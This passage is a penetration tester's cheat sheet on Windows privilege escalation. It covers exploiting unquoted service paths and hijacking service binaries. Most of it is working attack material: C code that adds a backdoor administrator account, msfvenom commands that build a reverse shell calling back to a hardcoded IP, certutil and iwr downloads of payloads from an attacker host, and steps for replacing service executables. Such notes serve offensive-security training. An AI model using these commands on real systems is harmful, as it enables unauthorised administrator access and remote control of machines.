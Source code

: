 ```
Service Path:
C:\Program Files\My Program\My Service\service.exe
The Service will run the executable in path like this:
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe

1. check if current user has permission to place malicious bianry into subdirectories of unquoted service path
   Manual Way: accesschk.exe /accepteula -quv "unquoted path"

2. check which service runs this executable file
3. restart the service to receive rev shell or msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe
```

```
Automatic Script:

cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
Import-Module .\PowerUp.ps1
Get-UnquotedService
```

##### Service Binary Hijacking
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

First Way -- Add user to local Administrator group:
adduser.c:
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}

x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```
```
Second Way -- Generating reverse shell file:
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.45.215 lport=1234 -f exe > backdoor.exe
move "C:\Program Files\MilleGPG5\GPGService.exe" C:\Users\Public\test.exe
certutil.exe -urlcache -split -f http://192.168.45.215:8080/backdoor.exe "C:\Program Files\MilleGPG5\GPGService.exe"
Restart-Service ServiceName
```
```
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
whoami /priv(if SeShutdownPrivilege isn't present,  we would have to wait for the victim to manually start the service)
shutdown /r /t 0

Automatic Script:
```